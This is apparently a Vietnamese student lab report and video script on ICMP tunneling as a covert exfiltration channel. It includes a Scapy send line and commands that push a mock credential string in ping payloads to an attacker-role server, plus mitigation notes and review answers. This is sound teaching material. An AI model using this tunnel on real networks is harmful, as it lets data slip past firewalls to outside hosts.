

# BÁO CÁO THỰC HÀNH CHI TIẾT — BÀI LAB 03
## Đề tài: Kỹ thuật tấn công ICMP Tunneling (Covert Channel / Data Exfiltration)

---

## I. MỤC TIÊU BÀI THỰC HÀNH

1. **Hiểu bản chất kênh ngầm (Covert Channel)**:
   * Cách kẻ tấn công lợi dụng một giao thức tưởng chừng vô hại (ICMP Ping ở Tầng 3) để tạo đường hầm vận chuyển dữ liệu bí mật ra ngoài mà không cần mở bất kỳ cổng kết nối TCP/UDP nào ở Tầng 4.
2. **Khai thác vùng Payload của gói tin ICMP**:
   * Gói tin ICMP Echo Request/Reply theo thiết kế có phần dữ liệu đệm (Payload, thường chứa 32–64 byte vô hại). Kẻ tấn công có thể thay thế phần này bằng dữ liệu nhị phân hoặc chuỗi ký tự bí mật để rò rỉ dữ liệu (Data Exfiltration).
3. **Chứng minh sự bất lực của tường lửa lọc cổng truyền thống (Port-based Firewall)**:
   * Thiết lập luật `iptables` chặn tuyệt đối mọi lưu lượng TCP, nhưng ICMP Tunnel vẫn xuyên thủng tường lửa trót lọt.
4. **Xây dựng chương trình Tunnel Server/Client tự động phân mảnh và tái hợp dữ liệu (Reassembly)**:
   * Client chia nhỏ file thành từng mảnh 24 byte gửi qua các gói ICMP.
   * Server lắng nghe, bóc tách payload, và khi nhận tín hiệu kết thúc (`__EOF__`) sẽ tự động ghép nối hoàn chỉnh văn bản mật.
5. **Nắm vững các phương pháp giám sát & phòng thủ**:
   * Phân tích kích thước gói tin, tần suất gửi, độ hỗn loạn thông tin (Entropy) và giải pháp lọc gói tin tại biên mạng (Egress Filtering).

---

## II. KIẾN THỨC NỀN TẢNG CỐT LÕI

### 1. Cấu trúc gói tin ICMP Echo (RFC 792)
Một gói tin ICMP Echo Request (Type 8, Code 0) gồm 2 phần:
* **Header (8 bytes)**: Gồm Type (1 byte), Code (1 byte), Checksum (2 bytes), Identifier (2 bytes), và Sequence Number (2 bytes).
* **Data Payload (Kích thước tùy ý)**: Thường chứa các byte đệm của hệ điều hành (ví dụ bảng chữ cái `abcdef...` trên Windows hoặc timestamp trên Linux).
* **Lỗ hổng logic**: Giao thức ICMP **hoàn toàn không kiểm duyệt nội dung** bên trong vùng Data Payload. Do đó, người dùng có thể nhồi bất kỳ dữ liệu nào vào vùng này!



### 2. Khái niệm Kênh ngầm (Covert Channel)
* Các chính sách an ninh mạng công ty thường tập trung bảo vệ Tầng 4 (chặn cổng 80, 443, 21, 22 để cấm tải file).
* Lệnh `ping` (ICMP) thuộc Tầng 3 (Network Layer), không sử dụng khái niệm Cổng (Port). Vì quản trị viên cần dùng `ping` để kiểm tra thông mạng, ICMP hầu như luôn được phép đi qua tường lửa.
* Kẻ tấn công biến ICMP thành "đường hầm bí mật" (Covert Tunnel) để tuồn tài liệu mật ra ngoài hoặc làm kênh điều khiển mã độc (C2 - Command & Control).

---

## III. GIẢI THÍCH CHI TIẾT CÁC FILE MÃ NGUỒN

Hai file mã nguồn được lưu tại: `/home/tantayen/Projects/TCPIP/LabLoHongBaoMatTCPIP_2MayThat/` (Được tối ưu hỗ trợ cả 2 máy thật Wi-Fi lẫn namespace):

### 1. File `icmp_client.py` (Máy khách tuồn dữ liệu)
* **Chức năng**: Đóng vai máy nạn nhân bên trong nội bộ, chia nhỏ tài liệu mật thành từng đoạn 24 byte và nhồi vào payload của từng gói ping gửi tới máy chủ kẻ tấn công.
* **Cú pháp thực thi linh hoạt**:
  * Chạy trên 2 máy thật: `python3 icmp_client.py <IP_Server_May_2> [interface]`
  * Chạy trong namespace: `python3 icmp_client.py 10.0.0.2`
* **Cơ chế hoạt động**:
  1. Dữ liệu mật cần tuồn: `CONFIDENTIAL-DATA: User=admin Pass=SecretPassword123 Token=JWT-XYZ-999` (71 bytes).
  2. Vòng lặp chia dữ liệu thành 3 mảnh (mỗi mảnh 24 byte):
     * Mảnh 1: `b'CONFIDENTIAL-DATA: User='`
     * Mảnh 2: `b'admin Pass=SecretPasswor'`
     * Mảnh 3: `b'd123 Token=JWT-XYZ-999'`
  3. Sử dụng hàm `sr1()` của Scapy gửi từng gói ping mang tải dữ liệu nhạy cảm:
     ```python
     pkt = IP(dst=target)/ICMP(type=8, id=0x1337, seq=idx)/seg
     ans = sr1(pkt, timeout=2.5, verbose=0)
     ```
  4. Sau khi gửi xong toàn bộ dữ liệu, client gửi một gói kết thúc mang cờ: `b"__EOF__"` (End Of File) để báo cho Server biết đã truyền xong.

---

### 2. File `icmp_server.py` (Máy chủ hứng và ghép dữ liệu)
* **Chức năng**: Đóng vai máy chủ của hacker bên ngoài Internet, lắng nghe gói tin ICMP trên card mạng (`wlan0` hoặc mọi card mạng), bóc tách dữ liệu và tái hợp thành tài liệu ban đầu.
* **Cú pháp thực thi linh hoạt**:
  * Chạy trên 2 máy thật: `sudo python3 icmp_server.py [wlan0]`
  * Chạy trong namespace: `python3 icmp_server.py`
* **Cơ chế hoạt động**:
  1. Sử dụng hàm `sniff()` của Scapy lọc riêng các gói Echo Request (`icmp and icmp[icmptype] == 8`).
  2. Khi gói tin đến: Lấy dữ liệu bằng `data = bytes(p[ICMP].payload)`.
  3. Nếu `data == b"__EOF__"`:
     * Kích hoạt hàm tái hợp: `full_data = b"".join(received_chunks)`.
     * Giải mã chuỗi UTF-8 và in toàn bộ tài liệu hoàn chỉnh ra màn hình.
     * Gửi phản hồi `ACK:__EOF__` về cho Client.
  4. Nếu là dữ liệu mảnh: Lưu vào danh sách `received_chunks` và gửi gói Echo Reply (Type 0) chứa `ACK: <data>` để hoàn tất truyền thông 2 chiều.

---

## IV. QUÁ TRÌNH THỰC HÀNH 3 PHA CHI TIẾT

### PHƯƠNG ÁN 1: TRIỂN KHAI TRÊN 2 MÁY THẬT KALI LINUX (CÙNG KẾT NỐI WI-FI)

#### Thiết lập ban đầu:
* **Máy 1 (Client nội bộ / Attacker)**: IP Wi-Fi (ví dụ `192.168.1.50`), card `wlan0`.
* **Máy 2 (Server hứng dữ liệu)**: IP Wi-Fi (ví dụ `192.168.1.100`), card `wlan0`.

---

#### PHA 1: Thiết lập Tường lửa chặn TCP trên Máy 2 (Demonstrate TCP Restriction)

1. **Tại Máy 2 (Server)**:
   * Tắt tính năng tự trả lời ping của Linux (để script Python tự chủ quản lý):
     ```bash
     sudo sysctl -w net.ipv4.icmp_echo_ignore_all=1
     ```
   * Bật tường lửa `iptables` cấm tuyệt đối mọi lưu lượng TCP kết nối vào cổng 9999:
     ```bash
     sudo iptables -F
     sudo iptables -A INPUT -p tcp --dport 9999 -j DROP
     ```
2. **Tại Máy 1 (Client)**:
   * Thử nghiệm kết nối TCP thông thường vào server Máy 2:
     ```bash
     nc -z -v -w 2 192.168.1.100 9999
     ```
   * *Kết quả:* Lệnh bị treo và báo lỗi thất bại do tường lửa drop gói tin SYN.
   * Thử gửi ping kiểm tra kết nối ICMP:
     ```bash
     ping -c 2 192.168.1.100
     ```
   * *Kết quả:* Gói tin đi qua mạng bình thường (không bị drop tại switch/AP).
   * 👉 **Kết luận Pha 1:** Toàn bộ kênh truyền TCP truyền thống đã bị tường lửa phong tỏa hoàn toàn.

---

#### PHA 2: Soi gói tin ICMP xuyên tường lửa bằng `tcpdump` (Inspection Phase)

1. **Tại Máy 2 (Server)**:
   * Chạy công cụ `tcpdump` ở chế độ in mã chữ ASCII (`-A`):
     ```bash
     sudo tcpdump -i wlan0 -nn -A 'icmp and icmp[icmptype] == 8'
     ```
2. **Tại Máy 1 (Client)**:
   * Chạy script tuồn dữ liệu:
     ```bash
     sudo python3 icmp_client.py 192.168.1.100 wlan0
     ```
3. **Hiện tượng quan sát được:**
   * Trên Máy 2, `tcpdump` tóm được từng gói tin ICMP đi xuyên qua tường lửa và hiển thị rõ từng đoạn chữ trong tài liệu mật nằm trần trụi trong phần ruột của gói tin (`CONFIDENTIAL-DATA: User=...`).
   * 👉 **Kết luận Pha 2:** Dù TCP bị chặn cứng, các gói tin ICMP vẫn vượt qua tường lửa dễ dàng và mang theo dữ liệu nhạy cảm.

---

#### PHA 3: Khởi chạy Máy chủ ICMP Tunnel hứng và tái hợp dữ liệu (Exfiltration & Reassembly Phase)

1. **Tại Máy 2 (Server)**:
   * Nhấn `Ctrl + C` dừng `tcpdump`, sau đó khởi động máy chủ ICMP Tunnel:
     ```bash
     sudo python3 icmp_server.py wlan0
     ```
2. **Tại Máy 1 (Client)**:
   * Chạy lại script tuồn dữ liệu:
     ```bash
     sudo python3 icmp_client.py 192.168.1.100 wlan0
     ```
3. **Kết quả mỹ mãn trên cả 2 máy thật:**
   * **Máy 1 (Client):** Báo gửi thành công từng mảnh #01, #02, #03 và gửi tín hiệu `__EOF__`.
   * **Máy 2 (Server):** Nhận tuần tự từng mảnh dữ liệu, và ngay khi nhận được tín hiệu `__EOF__`, Server lập tức in ra khung thông báo nổi bật:
     ```text
     ==================================================================
     [+] DA NHAN DU TOAN BO CAC MANH! TIEN HANH GHEP DU LIEU HOAN CHINH:
     ==================================================================

     >>> TAI LIEU MAT THU DUOC:
         CONFIDENTIAL-DATA: User=admin Pass=SecretPassword123 Token=JWT-XYZ-999

     [+] Tong so manh ghep: 3 manh
     [+] Tong kich thuoc:    71 bytes
     [=>] KET LUAN: Du lieu da bi tuon ra ngoai thanh cong qua ICMP Tunnel!
     ==================================================================
     ```

---

### PHƯƠNG ÁN 2: TRIỂN KHAI TRÊN 1 MÁY MÔ PHỎNG QUA NETWORK NAMESPACE

* Khởi tạo môi trường: `sudo bash setup_pair.sh`
* Pha 1: Trên `h2`: `iptables -A INPUT -p tcp --dport 9999 -j DROP`. Trên `h1`: `nc -z -v -w 2 10.0.0.2 9999` (thất bại).
* Pha 2: Trên `h2`: `tcpdump -i veth2 -nn -A 'icmp and icmp[icmptype] == 8'`. Trên `h1`: `python3 icmp_client.py`. Soi rõ payload dữ liệu mật.
* Pha 3: Trên `h2`: `python3 icmp_server.py`. Trên `h1`: `python3 icmp_client.py`. Ghép nối hoàn chỉnh 71 bytes dữ liệu. Dọn dẹp bằng `clean_pair.sh`.

---

## V. CÁC BIỆN PHÁP PHÒNG CHỐNG (MITIGATION)

1. **Phân tích đặc trưng gói tin ICMP (Deep Packet Inspection - DPI)**:
   * **Kích thước Payload bất thường**: Một gói ping tiêu chuẩn chỉ mang từ 32 đến 56 byte dữ liệu đệm. Nếu thấy gói ICMP có kích thước payload lớn bất thường hoặc thay đổi liên tục -> Cảnh báo ngay.
   * **Tần suất gửi dày đặc**: Lưu lượng ping kiểm tra mạng thông thường chỉ có tần suất 1 gói/giây. ICMP Tunnel thường phát hàng loạt gói liên tục trong thời gian ngắn để truyền file.
2. **Phân tích độ hỗn loạn thông tin (Entropy Analysis)**:
   * Kẻ tấn công chuyên nghiệp sẽ mã hóa (AES/Base64) dữ liệu trước khi nhồi vào ICMP. Dữ liệu mã hóa có độ hỗn loạn (Entropy) rất cao so với dữ liệu đệm bảng chữ cái thông thường của hệ điều hành. Hệ thống IDS/IPS (Suricata/Snort) có thể dựa vào chỉ số Entropy để phát hiện.
3. **Kiểm soát lưu lượng đi ra tại biên mạng (Egress Filtering)**:
   * Chặn không cho phép gửi ICMP Echo Request ra ngoài Internet từ các máy trạm không cần thiết, hoặc giới hạn tốc độ (Rate Limiting) nghiêm ngặt đối với giao thức ICMP.

---

## VI. ĐÁP ÁN 4 CÂU HỎI ÔN TẬP CỦA GIẢNG VIÊN

| STT | Câu hỏi của Giảng viên | Đáp án chuẩn xác & Điểm tuyệt đối |
| :---: | :--- | :--- |
| **1** | *Vì sao payload ICMP lại là nơi lý tưởng để giấu dữ liệu? Ping hợp lệ thường có payload bao nhiêu byte?* | **Đáp:** Vì giao thức ICMP được thiết kế mở, vùng payload không bị giới hạn định dạng và không bị nhân hệ điều hành kiểm duyệt nội dung; đồng thời quản trị viên thường mở ICMP trên tường lửa để kiểm tra mạng. Một gói ping hợp lệ trên Linux thường có payload là 56 byte (tổng gói IP là 84 byte), trên Windows là 32 byte. |
| **2** | *Tại sao tường lửa lọc theo cổng (port-based) không chặn được tunnel? Cần bổ sung biện pháp gì?* | **Đáp:** Vì tường lửa lọc theo cổng chỉ hoạt động ở Tầng 4 (Giao vận - TCP/UDP). Giao thức ICMP hoạt động ở Tầng 3 (Mạng), hoàn toàn không có khái niệm số cổng (Port) nên vượt qua bộ lọc Tầng 4 trót lọt. Cần bổ sung tường lửa ứng dụng (NGFW/WAF) và hệ thống phát hiện xâm nhập IDS/IPS có khả năng soi sâu vào nội dung gói tin (Deep Packet Inspection). |
| **3** | *Liệt kê 3 đặc trưng giúp IDS phát hiện ICMP Tunnel?* | **Đáp:** (1) Kích thước payload bất thường hoặc biến thiên liên tục; (2) Tần suất gửi gói và tổng lưu lượng ICMP đột biến cao; (3) Tỉ lệ bất cân xứng giữa gói Request và Reply hoặc dữ liệu payload giữa Request/Reply không khớp nhau. |
| **4** | *Nếu dữ liệu được mã hóa trước khi nhồi vào ICMP, những phương pháp phát hiện nào vẫn còn hiệu lực?* | **Đáp:** (1) Phân tích Entropy (độ hỗn loạn thông tin): dữ liệu mã hóa có entropy xấp xỉ giá trị cực đại ($H \approx 8$); (2) Phân tích lưu lượng hành vi (Traffic Analysis): kích thước gói tin và tần suất gửi; (3) Giám sát điểm cuối (Endpoint Monitoring/EDR) để phát hiện tiến trình lạ tạo raw socket. |

---

## VII. KỊCH BẢN THUYẾT TRÌNH KHI QUAY VIDEO (VOICEOVER)

Báo cáo cung cấp **2 phương án kịch bản tương ứng**:
* **Kịch bản A:** Dành cho quay video trực tiếp trên **2 máy vật lý Kali Linux qua Wi-Fi**.
* **Kịch bản B:** Dành cho quay video trên **1 máy Kali Linux mô phỏng bằng Network Namespace**.

---

### KỊCH BẢN A: DÀNH CHO QUAY VIDEO TRÊN 2 MÁY THẬT (QUA MẠNG WI-FI)

> **Bố cục đề xuất khi quay video:**
> * **Máy 1 (Bên trái):** Kali Linux - Máy Client nội bộ / Attacker (IP ví dụ: `192.168.1.50`, card `wlan0`).
> * **Máy 2 (Bên phải):** Kali Linux - Máy Server bên ngoài hứng dữ liệu (IP ví dụ: `192.168.1.100`, card `wlan0`).
> * *Nguyên tắc:* Gõ lệnh tới đâu, giải thích ngay chức năng và ý nghĩa kỹ thuật tới đó.

#### [0:00 - 0:35] Mở đầu & Giới thiệu đề tài
* **Lời thoại:**
  *"Kính chào thầy và các bạn! Hôm nay nhóm em xin trình bày bài thực hành số 03: Kỹ thuật tấn công Kênh truyền ngầm ICMP Tunneling để đánh cắp và tuồn dữ liệu bí mật (Data Exfiltration) được triển khai trực tiếp trên 2 máy tính vật lý Kali Linux cùng kết nối mạng Wi-Fi. Trong thực tế doanh nghiệp, tường lửa thường chặn cứng các cổng TCP ra ngoài để ngăn nhân viên tải file, nhưng lại mở giao thức ping ICMP để kiểm tra mạng. Kẻ tấn công lợi dụng điểm mù này để giấu dữ liệu mật vào phần payload của gói ping, biến ICMP thành một đường hầm buôn lậu dữ liệu xuyên thủng tường lửa!"*

#### [0:35 - 1:15] Bước 1: Kiểm tra IP và thông tuyến Wi-Fi giữa 2 máy
* **Thao tác 1 (Trên Máy 2 - Kiểm tra IP):**
  ```bash
  ip -br addr show wlan0
  ```
  * **Lời thoại:**
    *"Trước tiên, trên Máy 2 bên phải, em kiểm tra địa chỉ IP card Wi-Fi `wlan0` là `192.168.1.100`. Đây sẽ là máy chủ tiếp nhận dữ liệu bí mật."*

* **Thao tác 2 (Trên Máy 1 - Kiểm tra IP & Ping sang Máy 2):**
  ```bash
  ip -br addr show wlan0
  ping -c 2 192.168.1.100
  ```
  * **Lời thoại:**
    *"Trên Máy 1 bên trái, em kiểm tra IP là `192.168.1.50` và gửi 2 gói ping sang Máy 2. Kết nối thông suốt 100%, sẵn sàng cho 3 pha thử nghiệm!"*

#### [1:15 - 2:10] Bước 2: Pha 1 — Thiết lập Tường lửa chặn TCP trên Máy 2
* **Thao tác 1 (Trên Máy 2 - Bật iptables DROP cổng TCP 9999):**
  ```bash
  sudo sysctl -w net.ipv4.icmp_echo_ignore_all=1
  sudo iptables -F
  sudo iptables -A INPUT -p tcp --dport 9999 -j DROP
  ```
  * **Lời thoại:**
    *"Tại Máy 2, em tắt cơ chế tự phản hồi ping mặc định của nhân Linux để script Python tự quản lý, đồng thời thiết lập tường lửa `iptables` cấm tuyệt đối mọi kết nối TCP vào cổng dịch vụ 9999."*

* **Thao tác 2 (Trên Máy 1 - Kiểm chứng Tường lửa chặn TCP nhưng để lọt ICMP):**
  ```bash
  nc -z -v -w 2 192.168.1.100 9999
  ping -c 2 192.168.1.100
  ```
  * **Lời thoại:**
    *"Tại Máy 1, em dùng lệnh `nc` thử kết nối TCP vào cổng 9999 của Máy 2. Lệnh bị treo và báo thất bại do tường lửa chặn đứng. Nhưng khi em gửi lệnh ping ICMP, các gói tin lại đi qua trót lọt! Điều này chứng minh tường lửa Tầng 4 hoàn toàn bất lực trước lưu lượng Tầng 3!"*

#### [2:10 - 3:00] Bước 3: Pha 2 — Bật tcpdump soi dữ liệu mật trong gói ping
* **Thao tác 1 (Trên Máy 2 - Chạy tcpdump chế độ in mã chữ ASCII):**
  ```bash
  sudo tcpdump -i wlan0 -nn -A 'icmp and icmp[icmptype] == 8'
  ```
  * **Lời thoại:**
    *"Ở Pha 2, trên Máy 2 em bật `tcpdump` trên card `wlan0` với cờ `-A` để soi sâu vào phần nội dung văn bản ASCII của tất cả các gói Echo Request nhận được."*

* **Thao tác 2 (Trên Máy 1 - Chạy client tuồn dữ liệu):**
  ```bash
  sudo python3 icmp_client.py 192.168.1.100 wlan0
  ```
  * **Lời thoại:**
    *"Tại Máy 1, em chạy `icmp_client.py 192.168.1.100 wlan0`. Script này băm nhỏ chuỗi thông tin mật gồm tài khoản, mật khẩu quản trị và mã token thành từng mảnh 24 bytes, rồi nhồi vào ruột của gói ping.
    
    *Thầy và các bạn hãy nhìn sang Máy 2: Màn hình tcpdump hiện rõ mồn một chuỗi ký tự `CONFIDENTIAL-DATA: User=admin Pass=SecretPassword123 Token=JWT-XYZ-999` nằm phơi bày trong payload của gói ping! Dữ liệu mật đã vượt qua tường lửa công ty ra ngoài trót lọt!"*

#### [3:00 - 4:00] Bước 4: Pha 3 — Máy chủ ICMP Server tự động Tái hợp dữ liệu
* **Thao tác 1 (Trên Máy 2 - Nhấn Ctrl+C dừng tcpdump, bật ICMP Server):**
  ```bash
  sudo python3 icmp_server.py wlan0
  ```
  * **Lời thoại:**
    *"Ở Pha 3, trên Máy 2 em khởi động máy chủ kênh ngầm `icmp_server.py wlan0`. Chương trình này sử dụng thư viện Scapy mở raw socket, túc trực bắt từng mảnh dữ liệu ICMP và gom vào bộ đệm."*

* **Thao tác 2 (Trên Máy 1 - Gửi lại dữ liệu từ client):**
  ```bash
  sudo python3 icmp_client.py 192.168.1.100 wlan0
  ```
  * **Lời thoại:**
    *"Từ Máy 1, em thực thi truyền dữ liệu lại. Nhìn sang Máy 2 bên phải: Server nhận tuần tự mảnh 1, mảnh 2, mảnh 3, và khi nhận được tín hiệu kết thúc `__EOF__`, Server lập tức in ra khung thông báo: `[+] DA NHAN DU TOAN BO CAC MANH! TIEN HANH GHEP DU LIEU HOAN CHINH` với toàn bộ 71 bytes tài liệu mật được khôi phục nguyên vẹn 100%!"*

#### [4:00 - 4:40] Bước 5: Dọn dẹp & Biện pháp phòng chống
* **Thao tác trên Máy 2 (Gỡ bỏ tường lửa):**
  ```bash
  sudo iptables -F
  sudo sysctl -w net.ipv4.icmp_echo_ignore_all=0
  ```
* **Lời thoại giải thích:**
  *"Em khôi phục lại cấu hình mạng trên Máy 2 bằng cách xóa luật iptables và trả `icmp_echo_ignore_all=0` về mặc định.
  
  *Để phòng chống triệt để tấn công ICMP Tunneling, doanh nghiệp cần trang bị hệ thống IDS/IPS với tính năng Deep Packet Inspection (DPI) để kiểm tra sâu phần payload của gói ping; phân tích độ hỗn loạn thông tin Entropy để phát hiện mã độc giấu dữ liệu mã hóa; và thiết lập chính sách giới hạn kích thước gói ping tối đa 56 bytes đồng thời chặn ping ra ngoài Internet tại router biên. Nhóm em xin kết thúc bài thực hành số 03 tại đây!"*

---

### KỊCH BẢN B: DÀNH CHO QUAY VIDEO TRÊN 1 MÁY (MÔ PHỎNG NETWORK NAMESPACE)

> **Bố cục đề xuất khi quay video:**
> * Mở ứng dụng Konsole / Terminal và chia đôi màn hình (Split Screen):
>   * **Cửa sổ bên trái:** Máy Kẻ tấn công / Máy nội bộ `h1` (`10.0.0.1`).
>   * **Cửa sổ bên phải:** Máy Máy chủ bên ngoài `h2` (`10.0.0.2`).

#### [0:00 - 0:35] Mở đầu & Giới thiệu đề tài
* **Lời thoại:**
  *"Kính chào thầy và các bạn! Hôm nay em xin trình bày bài thực hành số 03: Kỹ thuật tấn công Kênh truyền ngầm ICMP Tunneling để đánh cắp và rò rỉ dữ liệu (Data Exfiltration). Trong môi trường doanh nghiệp, tường lửa thường chặn các cổng mạng TCP/UDP ra ngoài nhưng lại để hở giao thức ping ICMP để chẩn đoán mạng. Kẻ tấn công lợi dụng khe hở này để giấu dữ liệu mật vào bên trong phần dữ liệu đệm (Payload) của gói ping để tuồn thông tin ra máy chủ điều khiển bên ngoài!"*

#### [0:35 - 1:05] Bước 1: Khởi tạo mô hình mạng ảo
* **Thao tác trên terminal trái:**
  ```bash
  sudo bash setup_pair.sh
  ```
* **Lời thoại giải thích:**
  *"Đầu tiên, em thực thi script `setup_pair.sh`. Kịch bản này sử dụng Network Namespace để tạo hai máy ảo h1 có địa chỉ `10.0.0.1` đóng vai máy tính nội bộ của nạn nhân, và h2 có địa chỉ `10.0.0.2` đóng vai máy chủ của kẻ tấn công bên ngoài Internet, kết nối qua cặp card mạng ảo veth. Kết quả ping giữa hai máy phản hồi trơn tru, mạng đã sẵn sàng!"*

#### [1:05 - 2:00] Bước 2: Pha 1 — Chứng minh Tường lửa chặn TCP nhưng để lọt ICMP
* **Thao tác 1 (Terminal phải - Bật luật chặn TCP trên máy h2):**
  ```bash
  sudo ip netns exec h2 iptables -F
  sudo ip netns exec h2 iptables -A INPUT -p tcp --dport 9999 -j DROP
  ```
  * **Lời thoại:**
    *"Trên máy chủ h2, em thiết lập luật tường lửa `iptables` cấm tuyệt đối mọi gói tin TCP kết nối vào cổng dịch vụ 9999."*

* **Thao tác 2 (Terminal trái - Kiểm tra kết nối TCP và ICMP từ h1):**
  ```bash
  sudo ip netns exec h1 nc -z -v -w 2 10.0.0.2 9999
  sudo ip netns exec h1 ping -c 2 10.0.0.2
  ```
  * **Lời thoại:**
    *"Tại máy h1, em dùng lệnh `nc` để thử kết nối TCP vào cổng 9999. Lập tức lệnh bị treo và báo thất bại do tường lửa chặn đứng. Tuy nhiên, khi em gõ tiếp lệnh `ping 10.0.0.2`, các gói tin ICMP lại đi qua trót lọt 100%! Điều này chứng minh tường lửa Tầng 4 hoàn toàn bất lực trước giao thức ICMP ở Tầng 3!"*

#### [2:00 - 3:00] Bước 3: Pha 2 — Soi gói tin ICMP Tunnel bằng tcpdump
* **Thao tác 1 (Terminal phải - Bật tcpdump soi mã ASCII):**
  ```bash
  sudo ip netns exec h2 tcpdump -i h2-veth -nn -A 'icmp and icmp[icmptype] = 8'
  ```
  * **Lời thoại:**
    *"Ở Pha 2, em chạy lệnh `tcpdump` với cờ `-A` trên máy chủ h2 để soi sâu vào định dạng văn bản ASCII của toàn bộ các gói tin ICMP Echo Request nhận được."*

* **Thao tác 2 (Terminal trái - Chạy client tuồn dữ liệu mật):**
  ```bash
  sudo ip netns exec h1 python3 icmp_client.py
  ```
  * **Lời thoại:**
    *"Bây giờ tại máy h1, em chạy script `icmp_client.py`. Chương trình này chia nhỏ dữ liệu mật thành từng mảnh 24 byte rồi nhồi trực tiếp vào trường `load` của gói ICMP Echo Request gửi sang h2.
    
    *Thầy và các bạn hãy nhìn vào màn hình tcpdump bên phải: Toàn bộ nội dung mật khẩu gồm chuỗi `CONFIDENTIAL-DATA: User=admin Pass=SecretPassword123 Token=JWT-XYZ-999` hiện ra rõ mồn một trên màn hình!"*

#### [3:00 - 4:00] Bước 4: Pha 3 — Chạy ICMP Server tự động Tái tạo dữ liệu mật
* **Thao tác 1 (Terminal phải - Dừng tcpdump, bật server lắng nghe kênh ngầm):**
  ```bash
  sudo ip netns exec h2 python3 icmp_server.py
  ```
  * **Lời thoại:**
    *"Ở Pha 3, trên máy chủ h2, em chạy chương trình `icmp_server.py`. File Python này mở một raw socket để túc trực bắt các gói tin ICMP, tự động bóc tách payload, gom các mảnh rời rạc vào bộ nhớ đệm cho đến khi gặp tín hiệu kết thúc."*

* **Thao tác 2 (Terminal trái - Gửi lại dữ liệu từ client):**
  ```bash
  sudo ip netns exec h1 python3 icmp_client.py
  ```
  * **Lời thoại:**
    *"Em phát động truyền tin lại từ máy h1. Nhìn sang cửa sổ máy chủ bên phải: Server đã tự động gom đủ các mảnh, ghép lại thành công và in ra: `[+] DA NHAN DU TOAN BO CAC MANH! TIEN HANH GHEP DU LIEU HOAN CHINH (71 bytes)`! Dữ liệu mật đã được trích xuất nguyên vẹn 100%!"*

#### [4:00 - 4:40] Bước 5: Dọn dẹp & Biện pháp phòng vệ
* **Thao tác trên terminal trái:**
  ```bash
  sudo bash clean_pair.sh
  ```
* **Lời thoại giải thích:**
  *"Em dọn dẹp môi trường bằng script `clean_pair.sh`. Em xin kết thúc bài thực hành số 03 tại đây!"*

